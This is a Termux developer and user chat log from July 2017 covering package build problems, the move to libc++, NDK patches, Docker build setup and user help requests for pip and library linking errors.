2017-07-14 08:03:25	live_the_dreams	specifically the headers

2017-07-14 09:30:10	live_the_dreams	probably docker image issue

2017-07-14 11:34:07	gitter	(vishalbiswas) @fornwall rustc build

2017-07-14 11:35:25	gitter	(vishalbiswas) frumpylava: ls -l /data/data/com.termux/files/usr/lib/libmysqlclient.a on build machine doesn't show?

2017-07-14 11:39:00	gitter	(vishalbiswas) rods-tab3: add its-pointless' repo https://wiki.termux.com/wiki/Package_Management. Then apt install octave

2017-07-14 11:39:28	gitter	(vishalbiswas) @oguz-ismail exactly like any other linux based system using clang compiler

2017-07-14 11:42:35	gitter	(vishalbiswas) live_the_dreams: building or running?

2017-07-14 11:46:22	gitter	(vishalbiswas) frumpylava: I can force shared lib for libmysqlclient if you want but libmariadb is exactly that

2017-07-14 11:49:27	frumpylava	@vishalbiswas no. libmysqlclient.a is not a thing after building mariadb.

2017-07-14 11:50:49	gitter	(vishalbiswas) frumpylava: ```patch

2017-07-14 11:50:49	gitter	(vishalbiswas) --- ./libmariadb/libmariadb/CMakeLists.txt      2017-05-15 04:43:15.000000000 +0530

2017-07-14 11:50:49	gitter	(vishalbiswas) +++ ./libmariadb/libmariadb/CMakeLists.txt      2017-07-13 08:56:44.760099527 +0530

2017-07-14 11:50:49	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=5968e8523230e14f3a5b87fa]

2017-07-14 11:50:52	gitter	(vishalbiswas) ```patch

2017-07-14 11:50:53	gitter	(vishalbiswas) --- ./libmariadb/libmariadb/CMakeLists.txt      2017-05-15 04:43:15.000000000 +0530

2017-07-14 11:50:53	gitter	(vishalbiswas) +++ ./libmariadb/libmariadb/CMakeLists.txt      2017-07-13 08:56:44.760099527 +0530

2017-07-14 11:50:53	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=5968e85b329651f46e891cf6]

2017-07-14 11:51:49	gitter	(vishalbiswas) as you can see in that file, libmariadb is virtually identical to libmysqlclient. I don't understand where the problem comes from

2017-07-14 11:51:49	gitter	(vishalbiswas)

2017-07-14 11:53:04	frumpylava	It's because I have to patch php in a dozen places to accept the new library name.

2017-07-14 12:03:33	gitter	(vishalbiswas) frumpylava: https://gist.github.com/vishalbiswas/b2b64cf10ece9bb8415f91fc9f77c67e

2017-07-14 12:04:08	gitter	(vishalbiswas) or we can ln -s $PREFIX/libmariadb.so $PREFIX/libmysqlclient.so

2017-07-14 12:06:25	frumpylava	@vishalbiswas Alright I'll give that a try.

2017-07-14 12:45:42	gitter	(vishalbiswas) @fornwall we don't need termux_setup_cmake anymore do we? installing cmake through setup-ubuntu.sh will be enough

2017-07-14 12:49:24	frumpylava	@vishalbiswas Your patch is reversed. Can you send it to me the other way around?

2017-07-14 13:03:40	gitter	(vishalbiswas) frumpylava: sorry https://gist.github.com/vishalbiswas/b2b64cf10ece9bb8415f91fc9f77c67e

2017-07-14 13:04:41	gitter	(vishalbiswas) mongodb requires wiredtiger requires 64-bit ;(

2017-07-14 13:48:59	gitter	(vishalbiswas) @fornwall can we switch to gold?

2017-07-14 15:33:03	Grimler	frumpylava: last time i tried building ghostscript if finished but seemed to have pulled in the system libjpeg(/libpng?) instead of termux's version, when I debugged it on device it indicated something like that if my memory serves me correctly.. Compiling ghostscript involves building some stuff that the host should be able to execute, I think the relevant flags needs to be set correctly. The docs have

2017-07-14 15:33:08	Grimler	some good information related to cross compiling: https://ghostscript.com/doc/9.21/Make.htm#Cross-compiling

2017-07-14 17:15:33	gitter	(fornwall) @vishalbiswas the gold linker? I guess so, it's already used for aarch64 (https://github.com/termux/termux-packages/blob/master/build-package.sh#L557), so can probably be enabled for all arches

2017-07-14 17:38:43	gitter	(fornwall) @vishalbiswas could you try enabling gold for all arches, try out some builds and submit a pr?

2017-07-14 17:40:13	gitter	(fornwall) @vishalbiswas about termux_setup_cmake, I think we can keep it to be able to update cmake regardless of ubuntu package versions (as part of transitioning to libc++ cmake used during build was updated to 3.9.0-rc6, as the 3.9 series contains related android fixes)

2017-07-14 18:37:49	live_the_dreams	the docker rmoves stuff from ndk that is requierd

2017-07-14 18:39:07	live_the_dreams	also including cstddef fails

2017-07-14 18:44:56	live_the_dreams	g++ anyway

2017-07-14 18:46:58	live_the_dreams	https://github.com/android-ndk/ndk/issues/215

2017-07-14 20:00:34	fornwall	what part of the ndk? platforms other than 21?

2017-07-14 20:09:38	fornwall	ah, sorry, found it, sources/cxx-stl/llvm-libc++*

2017-07-14 20:10:01	fornwall	I must have run setup-android-sdk.sh inside my docker container and forgotten about it

2017-07-14 20:38:00	fornwall	an updated docker image has been pushed, thanks!

2017-07-14 22:05:33	live_the_dreams	also patched cstddef is needed for using g++

2017-07-14 22:07:14	live_the_dreams	#ifndef  __CLANG__ ; #include ../../fgg whatever

2017-07-14 22:07:25	live_the_dreams	and reverse patch for building ndk-stl?

2017-07-14 22:14:21	live_the_dreams	also ndk-patches dir doesn't patch c++ includes...

2017-07-14 22:18:25	live_the_dreams	fixed cstddef fixes the issu4 i had with rustc vish

2017-07-14 22:18:31	live_the_dreams	also means i can compile gcc-7 again

2017-07-14 22:34:33	rods-tab3	https://wiki.termux.com/wiki/Main_Page

2017-07-14 22:35:57	live_the_dreams	?

2017-07-14 23:23:33	gitter	(vishalbiswas) live_the_dream: many thanks for the fix. But I don't understand why is g++ invoked as I pass --enable-clang. This include error is a known bug in ndk gcc/g++

2017-07-14 23:25:32	live_the_dreams	no idea

2017-07-14 23:26:32	live_the_dreams	i now know its a knoen bug

2017-07-14 23:27:41	live_the_dreams	i even linked url..

2017-07-14 23:38:45	live_the_dreams	could be an android target thing

2017-07-14 23:41:54	gitter	(vishalbiswas) Anyways, libc++ means jdk will compile on AArch64. Now I can shared link with -lc++ which should lower its size and who knows, maybe fix some crashes

2017-07-15 00:04:38	gitter	(vishalbiswas) @fornwall why is `-Wl,--fix-cortex-a8` added to LDFLAGS. Specifically why is it passed as a `-Wl` option?

2017-07-15 00:25:51	gitter	(vishalbiswas) _CLANG_

2017-07-15 00:25:52	gitter	(vishalbiswas) __CLANG__

2017-07-15 00:27:02	gitter	(vishalbiswas) live_the_dreams: what do you mean by reverse patch for building ndk-stl?

2017-07-15 00:28:33	live_the_dreams	so when c++ headers are added

2017-07-15 00:28:33	live_the_dreams	its not patched

2017-07-15 00:28:33	live_the_dreams	on device

2017-07-15 00:29:47	gitter	(vishalbiswas) live_the_dreams: what does it hurt?

2017-07-15 00:30:36	live_the_dreams	depends

2017-07-15 00:30:36	live_the_dreams	on what the patch looks like

2017-07-15 00:30:36	live_the_dreams	but idk don't care

2017-07-15 00:36:47	gitter	(vishalbiswas) great, If I enable clang in jdk build, host cc also needs to be clang

2017-07-15 00:39:42	gitter	(vishalbiswas) * buildcc

2017-07-15 00:44:20	gitter	(vishalbiswas) live_the_dreams: shouldn't that patch be #ifdef __CLANG__?

2017-07-15 00:44:57	live_the_dreams	yeah

2017-07-15 00:45:10	live_the_dreams	whatever

2017-07-15 00:45:50	live_the_dreams	clang needs it as it is

2017-07-15 00:47:55	live_the_dreams	non clang include ../../lib/gcc/@TERMUX_HOST_PLATFORM@/4.9.x/include/stddef.h

2017-07-15 00:48:53	gitter	(vishalbiswas) live_the_dreams:i just surrounded #include_next directive with #ifdef CLANG

2017-07-15 00:49:55	live_the_dreams	the guy in charge of ndk ... said to do something else

2017-07-15 00:49:55	live_the_dreams	but whatever

2017-07-15 00:50:53	gitter	(vishalbiswas) -nostdinc then add 4.9.x/include to CPPFLAGS

2017-07-15 00:51:28	gitter	(vishalbiswas) I'

2017-07-15 00:51:56	gitter	(vishalbiswas) i actually think thats the proper solution (not a huge fan of patches)

2017-07-15 00:54:59	live_the_dreams	there are somethings that compile that do no like flags

2017-07-15 00:54:59	live_the_dreams	at all

2017-07-15 00:54:59	live_the_dreams	and just ignore it

2017-07-15 00:56:16	gitter	(vishalbiswas) sometimes I think porting is a hobby I decided to take just to torture myself

2017-07-15 01:19:18	rods-tab3	self flagellation is its own reward

2017-07-15 02:02:12	gitter	(vishalbiswas) rods-tab3: I'm not sure about that

2017-07-15 03:03:30	gitter	(rnauber) @Grimler91 please try his PR for ghostscript: https://github.com/termux/termux-packages/pull/1134

2017-07-15 03:48:06	gitter	(fornwall) @vishalbiswas https://developer.android.com/ndk/guides/standalone_toolchain.html`Also, make sure to provide the following two flags to the linker: -march=armv7-a -Wl,--fix-cortex-a8.

2017-07-15 03:48:06	gitter	(fornwall)

2017-07-15 03:48:06	gitter	(fornwall) The first flag instructs the linker to pick toolchain libraries which are tailored for armv7-a. The 2nd flag is required as a workaround for a CPU bug in some Cortex-A8 implementations.```

2017-07-15 03:48:42	gitter	(vishalbiswas) @fornwall I get unrecognized option in sometimes

2017-07-15 03:49:02	gitter	(vishalbiswas) shouldn't it be --fix-cortex-a8

2017-07-15 03:49:13	gitter	(vishalbiswas) instead of -Wl,--fix-cortex-a8?

2017-07-15 03:51:51	gitter	(fornwall) hm, I guess so, when passed to the linker

2017-07-15 03:53:59	gitter	(fornwall) looking at wikipedia it seems that Cortex-A8 is an old cpu, used in e.g. the first galaxy s (2010) phone and the motorola droid (2009)

2017-07-15 03:54:23	gitter	(fornwall) so I suspect that it's not really that relevant today

2017-07-15 03:56:23	gitter	(vishalbiswas) @fornwall don't think there's  Android 5.0 for any Cortex-A8s

2017-07-15 03:56:55	gitter	(fornwall) it doesn't look that way. let's drop fix-cortex-a8?

2017-07-15 03:57:18	gitter	(vishalbiswas) okay

2017-07-15 03:59:48	gitter	(fornwall) done!

2017-07-15 04:27:28	gitter	(fornwall) on another build note, recently support for specifying that a package should be built against a newer android api level, such as in `TERMUX_PKG_API_LEVEL=23`

2017-07-15 04:28:18	gitter	(fornwall) it's not used yet in any package, as running the resulting package will cause link failures on older android versions if any new function in libc is used

2017-07-15 04:30:38	gitter	(fornwall) but it can be interesting to experiment with, and if necessary we could start accepting new packages requiring a higher api level, as we start moving towards deprecating android 5.x support

2017-07-15 04:32:00	gitter	(vishalbiswas) lollipop is still around 30%

2017-07-15 04:35:43	gitter	(fornwall) right, we shouldn't drop support for it 5.x suddenly, just plan for it sometimes in the future

2017-07-15 04:36:48	gitter	(fornwall) the libc++ transition is now live in the package repository and is only a `pkg up` away!

2017-07-15 04:37:59	gitter	(vishalbiswas) ... and a 100 mb upgrade away!

2017-07-15 04:38:01	gitter	(fornwall) the `libgnustl` package remains installed, but it has been marked as non-essential and can now be uninstalled as nothing in a termux package links against it (but c++ programs built on the device probably does, so needs to be rebuilt)

2017-07-15 04:38:02	gitter	(fornwall) :)

2017-07-15 04:38:49	gitter	(vishalbiswas) that's not so bad, considering I do 500 mb upgrades on my desktop every week

2017-07-15 04:39:13	gitter	(fornwall) arch linux :)?

2017-07-15 04:40:11	gitter	(vishalbiswas) yes, and you should switch to PKGBUILDs

2017-07-15 04:40:20	gitter	(vishalbiswas) ;)

2017-07-15 04:51:59	Grimler	about ghostscript, could someone else with an arm device try building and starting ghostscript with the commit submitted by rnauber?

2017-07-15 04:55:57	live_the_dreams	really odd gcc-6 builds but not gcc-7

2017-07-15 04:55:57	live_the_dreams	fails tests ... thats why

2017-07-15 05:00:14	gitter	(vishalbiswas) live_the_dreams: tests?

2017-07-15 05:01:03	live_the_dreams	config tests

2017-07-15 05:01:03	live_the_dreams	thinking things aren't defined which are

2017-07-15 05:22:42	fornwall	live_the_dreams: which functions?

2017-07-15 05:23:24	live_the_dreams	its a weird link error

2017-07-15 05:23:24	live_the_dreams	probably something simple

2017-07-15 05:33:11	frumpylava	> 50 packages can be upgraded

2017-07-15 05:33:19	frumpylava	lol

2017-07-15 05:35:36	live_the_dreams	building

2017-07-15 05:36:11	gitter	(vishalbiswas) mine was 76.4 mb

2017-07-15 05:46:47	live_the_dreams	ooo we might finally have an updated apt?

2017-07-15 06:21:31	fornwall	live_the_dreams: yes, hopefully with a bit cleaner build and less patches :)

2017-07-15 06:23:23	live_the_dreams	hmmm had not load termux.spec to build gcc-7 ...

2017-07-15 06:23:23	live_the_dreams	lovely non pie binaries

2017-07-15 06:23:23	live_the_dreams	...

2017-07-15 06:34:01	gitter	(vishalbiswas) live_the_dreams did you change your gpg key for termux repo?

2017-07-15 06:35:14	gitter	(vishalbiswas) WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

2017-07-15 06:35:14	gitter	(vishalbiswas)

2017-07-15 06:35:14	gitter	(vishalbiswas) Hit:1 http://termux.net stable InRelease

2017-07-15 06:35:14	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=5969efe04bcd78af56b11b73]

2017-07-15 06:41:40	live_the_dreams	updating atp

2017-07-15 06:41:40	live_the_dreams	changes key?

2017-07-15 06:41:43	live_the_dreams	apt-key add pointless.gpg orwhatever

2017-07-15 08:05:40	gitter	(Grimler91) I tried converting a pdf to a jpg now that ghostscript is working (wohoo!) but I got this error:

2017-07-15 08:05:40	gitter	(Grimler91) CANNOT LINK EXECUTABLE: could not load library "libMagickCore-7.Q16HDRI.so" needed by "convert"; caused by cannot locate symbol "catopen" referenced by "libMagickCore-7.Q16HDRI.so"...

2017-07-15 08:05:40	gitter	(Grimler91) Which library contains catopen? libandroid-support?

2017-07-15 08:05:40	gitter	(Grimler91)

2017-07-15 08:33:51	gitter	(fornwall) @Grimler91 thanks! it was in libandroid-support, but libandroid-support has been purged from catopen/catclose/catgets and some other minor things (they were just broken stubs there anyway)

2017-07-15 08:34:06	gitter	(fornwall) imagemagick manages fine without it, it just needs a rebuild, I'm doing it now!

2017-07-15 08:41:19	gitter	(Grimler91) @fornwall Great!

2017-07-15 09:22:39	gitter	(fornwall) @Grimler91 should be fixed now, does it work?

2017-07-15 09:29:38	gitter	(Grimler91)  @fornwall yes, it works as expected!

2017-07-15 14:09:16	kspencer	signed up for beta

2017-07-15 23:24:10	gitter	(vishalbiswas) @fornwall how do you propose we solve the stddef include error? live_the_dreams suggestion of patching it works perfectly for me.

2017-07-15 23:24:33	live_the_dreams	im going to submit a patch

2017-07-15 23:25:19	live_the_dreams	but yeah cstddef needs to be patched for g++ to work in standalone

2017-07-15 23:27:22	gitter	(vishalbiswas) live_the_dreams currently the patch step in build-package has relative patches from the sysroot dir, and this header is outside it

2017-07-15 23:28:11	live_the_dreams	i know iv already done that bit as well

2017-07-15 23:28:55	gitter	(vishalbiswas) I really think we need a TERMUX_PKG_BUILDCACHE, to save files to be used in subsequent builds like in CI

2017-07-15 23:30:09	gitter	(vishalbiswas) is there an atexit function or similar in shell scripting?

2017-07-15 23:32:15	live_the_dreams	trap ?

2017-07-15 23:34:44	gitter	(vishalbiswas) trap EXIT function_name right?

2017-07-15 23:35:05	gitter	(vishalbiswas) or trap function_name EXIT

2017-07-15 23:37:38	live_the_dreams	it works on signals

2017-07-15 23:37:53	gitter	(vishalbiswas) https://stackoverflow.com/questions/2129923/bash-run-command-before-a-script-exits

2017-07-15 23:38:12	gitter	(vishalbiswas) man trap says EXIT is a special symbol

2017-07-15 23:38:29	live_the_dreams	ok

2017-07-15 23:51:35	gitter	(vishalbiswas) when it restores the cache, if the build is happening in src and a cached file already exists in src, should it overwrite it with the cached one?

2017-07-16 00:51:42	gitter	(netw0rm) hi

2017-07-16 00:57:39	live_the_dreams	hello

2017-07-16 01:20:54	gitter	(netw0rm) pip install pynacl  ..error

2017-07-16 01:21:21	gitter	(netw0rm) how can i do

2017-07-16 14:41:20	gitter	(AshleyNykiel) Error installing Python2 packages via pip2, device running Android 5.1.1 (arm) / Termux 0.53, was able to install pymysql without out any problems, how do I fix this?

2017-07-16 14:41:20	gitter	(AshleyNykiel)

2017-07-16 14:41:20	gitter	(AshleyNykiel) pip2 install -U psycopg postgres

2017-07-16 14:41:20	gitter	(AshleyNykiel) [full message: https://gitter.im/termux/termux?at=596bb350bc46472974f65888]

2017-07-16 19:11:22	gitter	(ackalker) I'm back working on audio for Termux, sorry for the loooong absence.

2017-07-16 19:27:51	live_the_dreams	oh shit

2017-07-16 19:27:51	live_the_dreams	good to see you back

2017-07-16 19:28:58	live_the_dreams	in your absense i got boost and then mpd ncmpcpp working at which point you will fix what i screwed up

2017-07-16 19:47:10	aleph-	Lulz

2017-07-16 19:47:10	aleph-	Welcome back.

2017-07-16 21:09:01	XandriX	o/ all

2017-07-16 21:16:26	XandriX	can one setup his own termux mirror if one would decide to start building and testing packages before even daring to publish them

2017-07-16 22:03:29	live_the_dreams	yes

2017-07-16 22:03:31	live_the_dreams	XandriX: look up reprepro

2017-07-16 22:03:42	live_the_dreams	any apt setup should do

2017-07-16 22:04:25	live_the_dreams	and just change sources.list on the device

2017-07-17 01:15:03	Fawch3d	hello... how to install metasploit in termux?

2017-07-17 01:19:03	gitter	(vishalbiswas) Fawch3d: wiki.termux.com/Metasploit

2017-07-17 01:57:44	frumpylava	live_the_dreams: Is "mkdir -p ~/music" in mpd still required? I think the default location now points to /sdcard/music anyway.

2017-07-17 01:58:27	live_the_dreams	get rid of it

2017-07-17 01:59:15	live_the_dreams	i need to go through that and redo some bits

2017-07-17 01:59:15	live_the_dreams	if you want to fix iup go ahead

2017-07-17 02:10:16	frumpylava	live_the_dreams: Created a pull request to remove that.

2017-07-17 02:25:23	frumpylava	@vishalbiswas Did you ever continue with dovecot?

2017-07-17 04:38:13	gitter	(oguz-ismail) I have compiled a simple hello

2017-07-17 04:38:16	gitter	(oguz-ismail) world

2017-07-17 04:38:36	gitter	(oguz-ismail) example from termux. but when i try to

2017-07-17 04:38:57	gitter	(oguz-ismail) run it from within another android app, it says

2017-07-17 04:39:01	gitter	(oguz-ismail) CANNOT LINK EXECUTABLE: library "libc++_shared.so" not found

2017-07-17 04:39:01	gitter	(oguz-ismail)

2017-07-17 04:39:01	gitter	(oguz-ismail)

2017-07-17 04:39:09	gitter	(oguz-ismail) what's the problem ?

2017-07-17 05:55:56	gitter	(Grimler91) Are se building packages as root again or is it something wrong with my docker? `sudo ./scripts/run-docker.sh` logs me in as root.

2017-07-17 05:59:22	live_the_dreams	is it logging in as current user?

2017-07-17 06:00:13	live_the_dreams	so not do sudo

2017-07-17 06:04:50	gitter	(Grimler91) live_the_dreams: I could setup docker to work as current user but it's not recommended afaik (https://askubuntu.com/questions/477551/how-can-i-use-docker-without-sudo). Previously `sudo ./scripts/run-docker.sh`logged me in as user "builder"

2017-07-17 06:21:33	gitter	(Grimler91) guess this could be related to the recent changes to run-docker.sh (e.g. https://github.com/termux/termux-packages/commit/e3f9f42f4dd6457fdaac5da55150fa2280621415). I'll try to look into it.

2017-07-17 06:35:42	gitter	(Grimler91) going back to before those changes makes it work as before (not really surprising)

2017-07-17 07:44:19	masterkorp	hello

2017-07-17 07:51:03	live_the_dreams	ello

2017-07-17 11:33:40	gitter	(fornwall) @Grimler91 ah, that's unfortunate with docker and root. I run docker as non-root so didn't notice

2017-07-17 12:10:04	gitter	(prinxy) Hello am trying to install tkinter using pip but am getting errors

2017-07-17 12:17:34	gitter	(marvin-littlewood) Hello! Love Termux but...

2017-07-17 12:18:22	gitter	(marvin-littlewood) Have to add -lgnustl_shared to make my previously working code run without SIGSEGV.

2017-07-17 12:19:05	gitter	(marvin-littlewood) Seems like the symbolic link in $PREFIX/lib for libstdc++ has gone after last updatge

2017-07-17 12:20:57	gitter	(marvin-littlewood) (Was fixed in issue #33)

2017-07-17 12:29:57	gitter	(vishalbiswas) @marvin-littlewood termux has switched to libc++, so now you can compile by adding -lc++_shared

2017-07-17 12:53:48	gitter	(marvin-littlewood) Thanks but that gives SIGSEGV - only gnustl works at present. NB was using the default toolchain detected by cmake.

2017-07-17 13:16:04	gitter	(vishalbiswas) @marvin-littlewood you can install libgnustl_shared from apt

2017-07-17 13:17:50	gitter	(marvin-littlewood) @vishalbiswas

2017-07-17 13:18:37	gitter	(AshleyNykiel) Error while installing some Python packages via pip - unable to execute '-DNDEBUG': No such file or directory, how do I fix this?

2017-07-17 13:19:53	gitter	(marvin-littlewood) @vishalbiswas Oops hit the wrong key! When did the switch happen?

2017-07-17 13:24:41	gitter	(vishalbiswas) @marvin-littlewood https://github.com/termux/termux-packages/commit/d946e67c5b86dd990ffa0e5654b2a514b787aeb9

2017-07-17 13:25:22	gitter	(vishalbiswas) @AshleyNykiel what are you trying to install?

2017-07-17 13:27:54	gitter	(AshleyNykiel) postgres and psycopq

2017-07-17 13:28:11	gitter	(AshleyNykiel) oops  psycopg

2017-07-17 13:32:19	gitter	(vishalbiswas) pip2 or pip3?

2017-07-17 13:35:33	gitter	(AshleyNykiel) pip2 mainly, however would also like to install via pip3 as well

2017-07-17 13:36:03	gitter	(vishalbiswas) ```-bash-4.4$ pip2 install postgres

2017-07-17 13:36:04	gitter	(vishalbiswas) Collecting postgres

2017-07-17 13:36:04	gitter	(vishalbiswas)   Downloading postgres-2.2.1.tar.gz

2017-07-17 13:36:04	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=596cf5830de4d2545e382605]

2017-07-17 13:36:24	gitter	(vishalbiswas) installed successfully

2017-07-17 13:39:45	gitter	(AshleyNykiel) Command "/data/data/com.termux/files/usr/bin/python2 -u -c "import setuptools, tokenize;__file__='/data/data/com.termux/files/usr/tmp/pip-build-7WEcji/psycopg2/setup.py';f=getattr(tokenize, 'open', open)(__file__);code=f.read().replace('\r\n', '\n');f.close();exec(compile(code, __file__, 'exec'))" install --record /data/data/com.termux/files/usr/tmp/pip-DH_vGw-record/install-record.txt --single-version-externally-managed --com

2017-07-17 13:39:45	gitter	/data/data/com.termux/files/usr/tmp/pip-build-7WEcji/psycopg2/

2017-07-17 13:41:54	gitter	(vishalbiswas) what's before it?

2017-07-17 13:46:14	gitter	(AshleyNykiel) Failed building wheel for psycopg2

2017-07-17 13:46:14	gitter	(AshleyNykiel)   Running setup.py clean for psycopg2

2017-07-17 13:46:14	gitter	(AshleyNykiel) Failed to build psycopg2

2017-07-17 13:46:14	gitter	(AshleyNykiel) [full message: https://gitter.im/termux/termux?at=596cf7e576a757f8081cd6b6]

2017-07-17 13:47:03	gitter	(vishalbiswas) this is not the complete output?

2017-07-17 13:49:41	gitter	(AshleyNykiel) Failed building wheel for psycopg2

2017-07-17 13:49:41	gitter	(AshleyNykiel)   Running setup.py clean for psycopg2

2017-07-17 13:49:41	gitter	(AshleyNykiel) Failed to build psycopg2

2017-07-17 13:49:41	gitter	(AshleyNykiel) [full message: https://gitter.im/termux/termux?at=596cf8b41c8697534a32c9db]

2017-07-17 13:50:01	gitter	(vishalbiswas) use pastebin

2017-07-17 14:11:40	lpelp	Hey, I have a question. Is there some way to get 'let' command in sh for termux? :)

2017-07-17 14:19:01	gitter	(AshleyNykiel) Sorry, https://pastebin.com/bf7zstur

2017-07-17 14:20:40	gitter	(vishalbiswas) what's your `env`?

2017-07-17 14:20:46	gitter	(vishalbiswas) seems like you have set the CC var

2017-07-17 15:21:45	frumpylava	What are you guys' most important packages? I am compiling a list for my upcoming presentation with termux' most popular packages.

2017-07-17 15:25:22	gitter	(vishalbiswas) frumpylava: i'll have a build of dovecot for you tomorrow

2017-07-17 15:28:48	frumpylava	@vishalbiswas Awesome \o/

2017-07-17 15:32:20	frumpylava	I already have "bash,fish,zsh,python,python2,ruby,perl,php,clang,golang,nodejs,vim,neovim,emacs,tmux,screen,openssh,coreutils,texlive". Anything important that I am missing?

2017-07-17 15:42:59	rods-tab3	gawk

2017-07-17 15:47:22	CrunchyBearFlake	hey guys. i'm trying to install scrapy and getting an error that it can't find libxml/xpath. I have libxml2-dev libffi-dev and openssl-dev installed.

2017-07-17 15:47:29	CrunchyBearFlake	i opened a ticket on github

2017-07-17 15:50:46	frumpylava	rods-tab3: thanks. I added that.

2017-07-17 16:02:20	rods-tab3	yyyou left out the most important one:  ''man''   ::--))

2017-07-17 16:03:37	frumpylava	:O

2017-07-17 16:05:43	rods-tab3	others:  apt busybox dash htop man termux-api termux-tools vtutils tracepath

2017-07-17 16:07:38	rods-tab3	installed but hardly used:  nano  weechat

2017-07-17 16:08:47	gitter	(AshleyNykiel) unalias CC

2017-07-17 16:08:47	gitter	(AshleyNykiel) unalias CPP

2017-07-17 16:08:47	gitter	(AshleyNykiel)

2017-07-17 16:08:47	gitter	(AshleyNykiel) [full message: https://gitter.im/termux/termux?at=596d194e76a757f8081d6fdd]

2017-07-17 16:09:51	gitter	(AshleyNykiel) Oops

2017-07-17 16:09:55	gitter	(AshleyNykiel) export CC=""

2017-07-17 16:09:55	gitter	(AshleyNykiel) export CPP=""

2017-07-17 16:09:55	gitter	(AshleyNykiel)

2017-07-17 16:09:55	gitter	(AshleyNykiel) [full message: https://gitter.im/termux/termux?at=596d19922723db8d5e1e1d15]

2017-07-17 16:11:10	gitter	(AshleyNykiel) What  are the recommended settings for this if I'd like to compile apps on my device?

2017-07-17 16:14:15	gitter	(AshleyNykiel) I'd love to see MongoDB added to the wishlist :-)

2017-07-17 16:16:41	gitter	(AshleyNykiel) Where is the php ini file located so I can add the Postgres drivers to it, didn't see one installed?

2017-07-17 16:37:51	rods-tab3	also frump - termux widgets and termux style

2017-07-17 16:47:57	frumpylava	rods-tab3: yeah, these are whole sections on my presentation.

2017-07-17 17:01:44	gitter	(prinxy)  Can I used tkinter module on termux ?

2017-07-17 17:30:52	gitter	(TilliWilli5) guys, are there any methods of adding Termux app to autostartup of system (android)? Better without rooting of a device?! And without 3rd-party app - just using bash scripts or modifying source code of the project?!

2017-07-17 17:36:35	gitter	(prinxy) Trying to pip install tkinter but I get this message:

2017-07-17 17:36:42	gitter	(prinxy) Could not find a version that satisfies the requirement tkinter (from versions: )

2017-07-17 17:36:42	gitter	(prinxy) No matching distribution found for tkinter

2017-07-17 17:36:48	gitter	(prinxy) .......

2017-07-17 17:37:03	gitter	(prinxy) Anyway to resolve this

2017-07-17 17:54:42	fornwall	frumpylava: mosh!

2017-07-17 18:03:34	rods-tab3	frumpylava --  would say  mksh - but then that comes with android;  is your presentation online ?

2017-07-17 19:19:54	rods-tab3	shouldn't gawk be mentioned in 3.1  https://wiki.termux.com/wiki/Main_Page  ??

2017-07-17 20:06:33	live_the_dreams	frumpylava: if you are at a hacker confernce mention radare2

2017-07-17 20:13:26	live_the_dreams	but don't mention too much stuff

2017-07-17 23:22:34	gitter	(prinxy) Someone should please answer me..

2017-07-17 23:22:50	gitter	(prinxy) Trying to pip install tkinter but I get this message:

2017-07-17 23:22:50	gitter	(prinxy) Could not find a version that satisfies the requirement tkinter (from versions: )

2017-07-17 23:22:50	gitter	(prinxy) No matching distribution found for tkinter

2017-07-17 23:22:50	gitter	(prinxy) .......

2017-07-17 23:23:13	gitter	(prinxy) Anyway to resolve this

2017-07-17 23:33:35	live_the_dreams	tkinter is graphical gui... we don't have gui available

2017-07-17 23:51:40	gitter	(vishalbiswas) @AshleyNykiel I tried mongodb. It depends on wiredtiger which only works on 64-bit devices. Unfortunately, I only have an ARMv7 (32-bit) device and launching up the emulator is no fun

2017-07-17 23:52:15	gitter	(vishalbiswas) What is the output of `env` before running that pip2 command?

2017-07-17 23:54:07	gitter	(vishalbiswas) frumpylava: or metasploit, maybe even have a demo

2017-07-17 23:54:31	gitter	(vishalbiswas) We have hydra too

2017-07-18 00:02:07	gitter	(sdrausty) https://github.com/sdrausty has buildAPKs labeled as a different language.

2017-07-18 00:03:42	gitter	(sdrausty) How to specify language per repository?

2017-07-18 00:05:30	gitter	(vishalbiswas) @sdrausty That may have happened because of all example app code. You should have them in a separate repo and submodule it in the main one.

2017-07-18 00:08:28	gitter	(sdrausty) @vishalbiswas I have been running into a number of misslabled repositories inasfaras language, https://github.com/sdrausty/buildAPKs and https://github.com/sdrausty/buildAPKs  are not HTML

2017-07-18 00:09:02	gitter	(sdrausty) Both these repositories are java.

2017-07-18 00:09:34	gitter	(vishalbiswas) They are shell scripts

2017-07-18 00:09:57	gitter	(vishalbiswas) A repo's language is the language of code it consists of

2017-07-18 00:10:04	gitter	(sdrausty) Where can I set language per repository?

2017-07-18 00:10:25	gitter	(sdrausty) Is there any option?

2017-07-18 00:10:25	gitter	(vishalbiswas) no way according to my knowledge

2017-07-18 00:10:39	gitter	(vishalbiswas) Ask on stackoverflow

2017-07-18 00:11:37	gitter	(sdrausty) *https://github.com/sdrausty/buildAPKsDebug

2017-07-18 00:54:49	gitter	(vishalbiswas) frumpylava: https://drive.google.com/open?id=0B8Q4yBRb9PSHZTVpdFpVNmtPMHc

2017-07-18 02:10:08	frumpylava	@vishalbiswas, live_the_dreams, fornwall: Thanks for the suggestions, I'll add them to my presentation.

2017-07-18 02:12:59	frumpylava	@vishalbiswas: Thanks. I installed it, but I am still getting CANNOT LINK EXECUTABLE "dovecot": library "libdovecot.so" not found

2017-07-18 03:54:25	frumpylava	live_the_dreams: What's the difference between OpenSLES and OpenAL when it comes to mpd

2017-07-18 03:54:58	live_the_dreams	same as mpv really

2017-07-18 03:55:26	frumpylava	oh, and which is?

2017-07-18 03:55:29	live_the_dreams	opensles is the native android openal emulations openal so it does things like emulate 5.1 surround better

2017-07-18 03:56:18	live_the_dreams	don't quote me on it

2017-07-18 03:56:22	frumpylava	So, openal is better?

2017-07-18 03:56:45	live_the_dreams	i think it uses more power ... something

2017-07-18 03:57:19	live_the_dreams	can't think at the moment compiling R libraries on a mobile phone....

2017-07-18 04:02:04	frumpylava	hmmm something like alsamixer, but for android's various audio streams would be nice.

2017-07-18 05:22:23	frumpylava	live_the_dreams: I think mpd needs format "44100:16:2" in the visualizer because ncmpcpp has set "visualizer_in_stereo = yes" by default, insteald of "44100:16:1", which it has currently. But I am not sure what the numbers even mean, it just says so in the example config.

2017-07-18 05:22:44	live_the_dreams	44100 is bit rate

2017-07-18 05:22:51	live_the_dreams	mhz

2017-07-18 05:23:21	live_the_dreams	16 bit

2017-07-18 05:23:25	live_the_dreams	2 = stereo

